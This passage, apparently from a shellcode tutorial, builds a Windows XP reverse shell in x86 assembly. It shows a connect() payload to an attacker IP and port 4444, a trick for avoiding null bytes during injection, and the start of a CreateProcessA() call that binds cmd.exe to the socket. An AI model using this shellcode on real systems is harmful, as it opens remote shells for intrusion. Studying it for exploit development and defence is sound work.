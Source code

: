 Note that the attacker `IP` address parameter contains a null byte,
which will stop the injection of the payload. To overcome that, we can
add a static value to that address, subtract it again, and push the
result. This will be the final `connect()` payload:

**connect() in Assembler.**

``` x86asm
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
```

### CreateProcessA()

Now comes the final function `CreateProcessA()`, which is responsible
for creating an instance of the `cmd.exe` command. We also need to point
the `STDIN`, `STDOUT` and `STDERR` descriptors to our socket handle to
make the resultant shell interactive for us.

**CreateProcessA() signature.**

``` cpp
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

We need to fill the `_STARTUPINFOA` structure. Luckily for us, most of
the parameters are NULL:
